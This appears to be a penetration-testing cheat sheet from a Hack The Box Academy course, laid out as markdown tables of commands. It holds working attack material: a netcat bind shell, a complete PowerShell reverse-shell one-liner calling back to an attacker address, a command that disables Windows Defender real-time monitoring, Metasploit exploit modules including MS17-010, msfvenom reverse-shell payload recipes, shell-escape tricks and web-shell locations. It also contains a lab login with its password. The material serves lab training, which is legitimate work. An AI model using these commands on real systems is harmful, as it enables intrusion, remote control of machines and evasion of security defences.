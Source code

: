 # Common Exploitation & Shell Commands

## Remote Desktop & Environment Variables
| Command | Description |
|---------|-------------|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol |
| `env` | Discovers system environmental variables, useful for identifying the shell in use |

## Netcat
| Command | Description |
|---------|-------------|
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port |
| `nc -nv <ip address of computer with listener started> <port>` | Connects to a netcat listener at the specified IP address and port |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell to a specified IP and port |

## PowerShell Reverse Shell & Defense Evasion
| Command | Description |
|---------|-------------|
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | PowerShell one-liner reverse shell |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Disables Windows Defender real-time monitoring |

## Metasploit Modules
| Command | Description |
|---------|-------------|
| `use exploit/windows/smb/psexec` | Exploits Windows SMB to gain a shell using PsExec |
| `shell` | Drops into a system shell from a Meterpreter session |
| `use auxiliary/scanner/smb/smb_ms17_010` | Checks if a host is vulnerable to MS17-010 |
| `use exploit/windows/smb/ms17_010_psexec` | Exploits MS17-010 vulnerability to gain a reverse shell |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Exploits rConfig 3.9.6 to gain a reverse shell |

## MSFvenom Payloads
| Command | Description |
|---------|-------------|
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | Creates a Linux ELF reverse shell payload |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | Creates a Windows EXE reverse shell payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | Creates a macOS Mach-O reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | Creates an ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | Creates a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | Creates a WAR Java/JSP web reverse shell payload |

## Interactive Shell Spawning
| Command | Description |
|---------|-------------|
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Uses Python to spawn an interactive shell |
| `/bin/sh -i` | Spawns an interactive shell |
| `perl -e 'exec "/bin/sh";'` | Uses Perl to spawn an interactive shell |
| `ruby: exec "/bin/sh"` | Uses Ruby to spawn an interactive shell |
| `Lua: os.execute('/bin/sh')` | Uses Lua to spawn an interactive shell |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses Awk to spawn an interactive shell |
| `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` and `awk` to spawn a shell |
| `find . -exec /bin/sh \; -quit` | Alternative `find` command to spawn a shell |
| `vim -c ':!/bin/sh'` | Uses Vim to spawn an interactive shell (useful for escaping restricted shells) |

## File & Permission Enumeration
| Command | Description |
|---------|-------------|
| `ls -la <path/to/fileorbinary>` | Lists files & directories with permissions |
| `sudo -l` | Displays commands the current user can run as sudo |

## Web Shell Locations (ParrotOS & Pwnbox)
| Command | Description |
|---------|-------------|
| `/usr/share/webshells/laudanum` | Location of Laudanum web shells |
| `/usr/share/nishang/Antak-WebShell` | Location of Antak WebShell |
